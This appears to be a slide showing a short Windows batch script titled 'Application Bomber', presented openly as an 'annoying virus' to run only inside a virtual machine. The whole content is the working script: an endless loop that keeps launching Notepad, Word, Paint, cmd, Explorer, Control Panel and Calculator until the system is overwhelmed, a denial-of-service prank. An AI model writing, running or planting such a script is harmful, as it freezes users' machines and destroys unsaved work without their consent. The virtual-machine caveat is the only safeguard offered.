

# Another Annoying Virus – Application Bomber (Run only inside a VM)
@echo off

:loop

start notepad
start winword
start mspaint
start write
start cmd
start explorer
start control
start calc

Goto loop